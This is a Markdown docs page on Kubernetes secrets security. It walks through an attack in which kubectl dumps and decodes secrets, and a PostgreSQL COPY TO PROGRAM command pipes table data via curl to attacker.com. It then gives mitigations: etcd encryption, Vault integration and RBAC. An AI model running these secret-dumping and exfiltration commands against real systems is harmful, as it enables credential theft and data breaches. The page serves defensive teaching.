 ```yaml
---
sidebar_position: 5
title: Insecure Secrets Management
description: Understanding the risks of insecure secrets management in Kubernetes and best practices to securely handle sensitive data.
---
```


# Insecure Secrets Management

**Insecure secrets management** in **Kubernetes** can lead to the **exposure of sensitive data**, such as **API keys**, **database credentials**, and **certificates**. Storing **secrets in plaintext** or using **insecure backends** can make them easily accessible to **attackers**.

---

## 🚩 Exploitation Steps: Accessing Insecurely Stored Secrets

An attacker identifies **Kubernetes Secrets** stored in **plaintext**:

```bash
kubectl get secrets -o yaml
```

### 1. Decode a Kubernetes Secret

The **attacker** extracts and **decodes** a **Base64-encoded secret**:

```bash
kubectl get secret db-secret -o go-template='{{.data.password|base64decode}}'
```

### 2. Access Sensitive Services Using Exposed Credentials

The **attacker** uses the **decoded credentials** to **access a database**:

```bash
psql -h <database-ip> -U admin -W
```

### 3. Exfiltrate Data from the Database

The **attacker** **exports sensitive data** from the **database** to an **external server**:

```sql
COPY (SELECT * FROM sensitive_data) TO PROGRAM 'curl -X POST -d @- http://attacker.com/upload';
```

### ✅ Result

The attacker can **access and exfiltrate sensitive data**, causing **data breaches** and **regulatory compliance violations**.

---

## 🛡️ Mitigation Techniques and Fixes

### 1. Encrypt Secrets at Rest

- **Issue:** **Secrets** stored in **etcd** are **not encrypted by default**.
- **Fix:** Enable **encryption at rest** in the **Kubernetes configuration**.

#### ✅ Example Encryption Configuration for etcd

```yaml
apiVersion: apiserver.config.k8s.io/v1
kind: EncryptionConfiguration
resources:
- resources:
  - secrets
  providers:
  - aescbc:
      keys:
      - name: key1
        secret: c2VjcmV0LWtleS1mb3ItZW5jcnlwdGlvbg==
  - identity: {}
```

### 2. Use External Secret Management Solutions

- **Issue:** **Kubernetes Secrets** alone do not provide **advanced security features**.
- **Fix:** Integrate with **external secret management tools** like **HashiCorp Vault**, **AWS Secrets Manager**, or **Azure Key Vault**.

#### ✅ Example of Using External Secrets with Kubernetes

```yaml
apiVersion: secrets-store.csi.x-k8s.io/v1
kind: SecretProviderClass
metadata:
  name: vault-secrets
spec:
  provider: vault
  parameters:
    vaultAddress: "https://vault.example.com"
    roleName: "k8s-role"
    objects: |
      array:
        - objectName: "db-password"
          secretPath: "secret/data/db"
          secretKey: "password"
```

### 3. Limit Access to Secrets with RBAC

- **Issue:** **Lack of access controls** allows **unauthorized access** to **secrets**.
- **Fix:** Implement **Role-Based Access Control (RBAC)** to **restrict secret access**.

#### ✅ Example of RBAC Policy for Secret Access

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: default
  name: secret-reader
rules:
- apiGroups: [""]
  resources: ["secrets"]
  verbs: ["get"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: read-secrets
  namespace: default
subjects:
- kind: ServiceAccount
  name: secret-reader-sa
roleRef:
  kind: Role
  name: secret-reader
  apiGroup: rbac.authorization.k8s.io
```

---

## ✅ Key Takeaway

To **secure Kubernetes secrets**, always:

- **Encrypt secrets at rest** using **etcd encryption**.
- **Integrate external secret management solutions** for **robust security**.
- Apply **RBAC policies** to **limit access** to **sensitive data**.
